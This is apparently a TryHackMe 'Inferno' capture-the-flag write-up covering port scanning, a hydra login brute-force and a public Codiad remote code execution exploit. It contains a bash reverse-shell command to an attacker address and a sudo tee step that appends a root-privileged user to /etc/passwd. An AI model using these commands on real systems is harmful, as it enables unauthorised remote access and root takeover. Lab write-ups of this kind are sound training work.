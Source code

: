 # Inferno | THM
### Difficulty level: Medium
---------------------------------------
First let’s start with the enumeration part:

```bash
nmap <target-ip>
```
Results:

PORT STATE SERVICE:
21/tcp open ftp
22/tcp open ssh
23/tcp open telnet
25/tcp open smtp
80/tcp open http
88/tcp open kerberos-sec
106/tcp open pop3pw
110/tcp open pop3
389/tcp open ldap
443/tcp open https
464/tcp open kpasswd5
636/tcp open ldapssl
777/tcp open multiling-http
783/tcp open spamassassin
808/tcp open ccproxy-http
873/tcp open rsync
1001/tcp open webpush
1236/tcp open bvcontrol
1300/tcp open h323hostcallsc
2000/tcp open cisco-sccp
2003/tcp open finger
2121/tcp open ccproxy-ftp
2601/tcp open zebra
2602/tcp open ripd
2604/tcp open ospfd
2605/tcp open bgpd
2607/tcp open connection
2608/tcp open wag-service
4224/tcp open xtell
5051/tcp open ida-agent
5432/tcp open postgresql
5555/tcp open freeciv
5666/tcp open nrpe
6346/tcp open gnutella
6566/tcp open sane-port
6667/tcp open irc
8021/tcp open ftp-proxy
8088/tcp open radan-http

So, the amount of the ports is huge, we are going to use those services:
SSH & HTTP.
Its time to Gobuster. Let’s find some hidden directories:
```bash
gobuster dir -u <target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Results:

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*dAQ8hK36p3gUupjT9w6s5g.png)

Inferno dir can be interesting. Let’s move on.
Checking the web app and we got a piece of text and a picture.

![image](https://github.com/alonpresman/AlonPresman/assets/121765218/e4e76337-c19e-4db1-821a-8637b5937582)

After a little research I found that picture and the text relate to Dante Alighieri. ( for more info: https://en.wikipedia.org/wiki/Dante_Alighieri )
Now, let’s check /inferno.

![image](https://miro.medium.com/v2/resize:fit:750/format:webp/1*GrrnpGTHrstpFdN0yi9l5g.png)

There is a login popup alert, but what should I do with that?
Maybe the translation of the text can give us a clue:
![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*rFenEQbRChJh6I7vEnF1BQ.png)

“The other were two, which are added to this one over the middle of each shoulder …” wait what?! it can be hydra or kerberos hint.
![image](https://miro.medium.com/v2/resize:fit:576/format:webp/1*vjAXNABa88lEOUXLslKctw.png)

Maybe attack that login page with hydra! First let’s give it a try with “admin” as username.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*hGog1odgFV3FMZD79Zqp_g.png)

and this attempt worked!!!
after login with those credentials, I got another login page.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*tzr3GcP-Vrk2t-MFHXQq6w.png)

Let’s try those credentials in the next login page.
I’m in.
Reading README.md file:

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*SbQHX2SnXZ4naShOFKmYiA.png)

As we can see this is Codiad web-based IDE.
Searchsploit time!

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*EvzLflgHb13LdnOsh7LtbQ.png)

getting that code from exploit-db:

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*WK_AE4x9RRLWFH8BvWJcdA.png)

first I'll give it execute permissions.

```bash
chmod 777 49705.py
```

Next, I found github page that explain how to use this payload.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*yvfhK6UItzUH0zQ8cIM2rQ.png)

https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit

Thanks, wangYihang :)

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*36gB3tglieMBct7R1-6k0w.png)

So, we need to execute 2 commands to make it.
first, we are going to open netcat listener on port 4445
and inside we are going to create a reverse shell with that command (in a new terminal):

```bash
echo 'bash -c "bash -i >/dev/tcp/<ip-address>/4446 0>&1 2>&1"' | nc -lnvp 4445
```
and open a listener for port 4446. (new terminal).

```bash
nc -lnvp 4446
```
![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*HRnsu6lR-phx2oJIUoEnCg.png)

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*q-F_nr5Sb4UeJhtyQljFtw.png)

after exploring the system, I found something interesting…

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*jCEGSamH67I2MhETSIBVEQ.png)

I’ll take that hexes and convert it to text!

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*vnbVB2zmlnty2nKIBt345Q.png)

SSH connection time!
after getting into the user with ssh service let’s run sudo -l to check which path or file we can exploit to get root!

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*78tjXuIBmBr4QZKq-vJzYQ.png)

So “tee”! let’s find some vulnerability that relates it.

I found a site with tee privilege escalation technique. I’m going to try it.

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-tee-privilege-escalation/

Step1: Create a New Password for New User:

```bash
openssl passwd -1 -salt "alon" "123"
```
![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*Cu4GjxCnvTgOJFfhKVLzNw.png)

Step 2: Write new line with “tee”.

```bash
printf 'alon:$1$alon$htpZ12KxJxTviYnmZLRxQ0:0:0:root:/root:/bin/bash\n' | sudo tee -a /etc/passwd
```

3. Switch to a new user and find proof.txt

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*XQgsV0tpzfsUbdsoCWoORA.png)

and I’ve rooted INFERNO!

Happy Hacking!

**Written by Alon Presman, Penetration Tester and Ethical Hacker.**






















